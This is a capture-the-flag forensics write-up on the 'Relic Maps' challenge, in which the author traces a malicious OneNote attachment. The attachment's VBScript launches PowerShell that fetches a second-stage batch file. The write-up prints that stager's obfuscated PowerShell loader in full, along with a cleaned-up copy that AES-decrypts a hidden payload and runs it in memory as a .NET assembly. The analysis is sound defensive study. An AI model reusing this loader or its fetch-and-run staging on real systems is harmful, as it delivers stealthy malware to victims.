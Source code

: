 # Relic Maps 
## Description
Pandora received an email with a link claiming to have information about the location of the relic and attached ancient city maps, but something seems off about it. Could it be rivals trying to send her off on a distraction? Or worse, could they be trying to hack her systems to get what she knows?Investigate the given attachment and figure out what's going on and get the flag. The link is to http://relicmaps.htb:/relicmaps.one. The document is still live (relicmaps.htb should resolve to your docker instance).

## Initial thoughts
Based on past forensic ctf's I was thinking this might have to deal with follina vulnerability (it did not) so I opened this in my linux VM. When I loaded /relicmaps.htb/relicmaps.one it prompted me to download the file. My first thought was to run file but all it got was `relicmaps.one: data`. I wasn't familiar with .one files but apparently thats a OneNote file. Anyway I tried the strings command and it looks like it contained other files.

## Stage 1
With the relicmaps.one I realized this file had other files embedded so I ran 
```
binawalk -D=".*"
```
and saw a few interesting files (html and images). I opened the html page, nothing but symbols loaded so I checked out the source code and there was some vbscript. 

Taking a closer look I realized it was running a powershell command to grab two more files.
```
http://relicmaps.htb/uploads/soft/topsecret-maps.one
```
and
```
http://relicmaps.htb/get/DdAbds/window.bat
```

## Stage 2
The topsecret-maps.one file was just like relicmaps.one however the files it attempted to reach no longer existed, soon enough I realized that was a dead end. So I pivotted to window.bat.

This file included a ton of obfuscated batch code, so when I don't know what going on I run it. I used run.any to run this code for me and in its analysis it captured the code that this was running.
```
"window.bat.exe"  -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\admin\AppData\Local\Temp\window.bat').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('')))
```

## Stage 3
This command was more obfuscation but its a lot easier to work this. I first cleaned this up a little to look like below.
```
$command = [System.IO.File]::ReadAllText('C:\Users\admin\AppData\Local\Temp\window.bat').Split([Environment]::NewLine);
foreach ($i in $command) 
{
    if ($i.StartsWith(':: ')) 
    {
        $VuGcO = $i.Substring(3); 
        break; 
    }; 
};

$uZOcm = [System.Convert]::FromBase64String($VuGcO);
$cryptography = New-Object System.Security.Cryptography.AesManaged;
$cryptography.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$cryptography.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$cryptography.Key = [System.Convert]::FromBase64String('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$cryptography.IV = [System.Convert]::FromBase64String('2hn/J717js1MwdbbqMn7Lw==');

$Nlgap = $cryptography.CreateDecryptor();
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);
$Nlgap.Dispose();
$cryptography.Dispose();
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);
$bTMLk = New-Object System.IO.MemoryStream;
$UnencryptedData = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$UnencryptedData.CopyTo($bTMLk);
$UnencryptedData.Dispose();
$mNKMr.Dispose();
$bTMLk.Dispose();
$uZOcm = $bTMLk.ToArray();

$gDBNO = [System.Reflection.Assembly]::Load($uZOcm);
$malwareExe = $gDBNO.EntryPoint;
$malwareExe.Invoke($null  (  [string[]] ('')))
```
Essentially how this works is it will parse the windows.bat file and only grab the line following :: (meaning the rest is just nonsense). Then it will proceed to base64decode and perfrom and AES decryption. This data would then be used to build the malware and execute it. For the longest time I fell into a rabbit whole of trying to decode window.bat in different ways but I all I had to do is digest the code and realize it was encrypted.

Anyhow, as you can see I label the variable where the data gets decrypted (UnencryptedData). If we output its contents after its decrypted and before it gets disposed then we should be able to see some of the strings within the executable. In doing so I found the flag.

# Summary 
This challenge required some deobfuscation and used the relicmap page to download the content used to build the malware executable. I had to first find the payload within the initial OneNote file and download the other stager which was a batch file that was used to build the .exe. Instead of outright running the malware I had it print its binary and allowed me to see a few visible strings one of which was the flag.